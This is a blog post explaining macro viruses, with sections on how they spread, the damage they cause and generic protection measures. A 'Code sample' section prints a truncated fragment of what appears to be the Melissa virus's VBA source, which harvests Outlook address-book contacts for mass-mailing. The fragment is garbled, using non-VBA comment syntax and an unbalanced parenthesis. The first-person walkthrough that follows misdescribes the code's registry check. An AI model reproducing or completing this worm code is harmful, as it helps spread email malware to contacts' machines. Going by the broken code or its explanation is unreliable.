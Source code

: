 ```yaml
---
layout: post
title: MACRO-VIRUS: A DEEP DIGITAL THREAT
description: "In the field of computer science, a macro virus, also known as a macrovirus, refers to a type of computer virus that is developed using a macro language. This language is built within an application software, such as a word processor."
---
```


In the complex arena of cybersecurity, macro viruses emerge as an insidious form of malware, posing a significant threat to the integrity of computer systems. In the realm of computing terminology, a macro virus, also known as a macro-virus, is a class of malware distinguished by being written in macro languages, often integrated into application software such as word processors.

## How Does a Macro Virus Work?

The ingenuity behind these digital threats lies in their ability to camouflage within seemingly harmless data files, such as documents and spreadsheets. These viruses embed malicious code, patiently awaiting activation. Execution occurs when the user opens the file or activates the macros, triggering the initiation of the infection process. Once triggered, the macro virus spreads, infiltrating other files on the device, expanding its presence, and amplifying its detrimental impact.

## The Depth of the Threat: Exploring Potential Damages

The spread of macro viruses is not confined solely to the contamination of individual files. Their ability to propagate rapidly can result in extensive damage, compromising the functionality of entire systems. Furthermore, the chameleon-like nature of these malwares hinders their detection, allowing them to evade traditional security measures.

These viruses can compromise not only data integrity but also exploit system vulnerabilities to infiltrate corporate networks, exposing sensitive information and creating significant breaches in digital security. Therefore, understanding the depth of the threat is essential for developing effective cybersecurity protection strategies.

## Code sample

```vba
Set UngaDasOutlook = CreateObject("Outlook.Application")
;creating an instance of Outlook
If System.PrivateProfileString "", "HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") <> "... by Kwyjibo" Then
  If UngaDasOutlook = "Outlook" Then
;if Outlook is the email engine...
    DasMapiName.Logon "profile", "password"
;get email user's name and email password
    For y = 1 To DasMapiName.AddressLists.Count
;set up getting ready to count number of contacts in address book
        Set AddyBook = DasMapiName.AddressLists(y)
        x = 1
        Set BreakUmOffASlice = UngaDasOutlook.CreateItem(0)
        For oo = 1 To AddyBook.AddressEntries.Count
            Peep = AddyBook.AddressEntries(x)
            BreakUmOffASlice.Recipients.Add Peep
            x = x + 1
            If x > 50 Then oo = AddyBook.AddressEntries.Count
         Next oo
```
This VBA code attempts to interact with Microsoft Outlook by manipulating email address information. Let's review the key points:

1. **Outlook Instance**

I create an instance of the Outlook application using `CreateObject`.

2. **Execution Conditions**

I check if a specific registry key (`HKEY_CURRENT_USER\Software\Microsoft\Office\`) has the value "Melissa?" different from "... by Kwyjibo" before proceeding with execution.

3. **Outlook Verification**

I verify if the variable `UngaDasOutlook` is equal to "Outlook." If true, the code continues.

4. **MAPI (Messaging Application Programming Interface) Logon**

I attempt to log on to MAPI using a profile and password. However, the variable `DasMapiName` has not been declared or defined earlier in the provided code, so there might be an error in this part of the code.

5. **Loop Through Email Addresses**

I iterate through the address lists in MAPI, and within this loop, I traverse the address entries in a specific list, adding up to 50 email addresses to a `Recipients` object named `BreakUmOffASlice`.

## Forms of Protection: Digital Shields Against Macro Viruses

Faced with this ever-evolving threat, it is imperative to adopt proactive measures to protect valuable systems and data. Some effective strategies include:

1. **Updates and Patches:** Keeping software and operating systems up to date is crucial. Often, vulnerabilities exploited by macro viruses are addressed through security updates.

2. **Updated Antivirus Software:** Using robust antivirus software and keeping it up to date is a fundamental defense. These tools are designed to identify and eliminate threats, including macro viruses.

3. **Macro Restriction:** Configuring software security to restrict the automatic execution of macros can significantly reduce the risk of infection.

4. **User Awareness:** Educating users about the risks associated with indiscriminate opening of documents and spreadsheets can be a crucial barrier against the spread of macro viruses.

5. **Proactive Monitoring:** Implementing proactive monitoring systems can help in the early detection of suspicious activities, allowing for a swift response before the infection spreads.

## Conclusion

In a digital landscape where threats constantly evolve, understanding the complexity of macro viruses and adopting robust protection measures is essential. By incorporating proactive strategies and raising user awareness about cybersecurity best practices, we can create a more resilient and protected digital environment against the subtleties of macro viruses.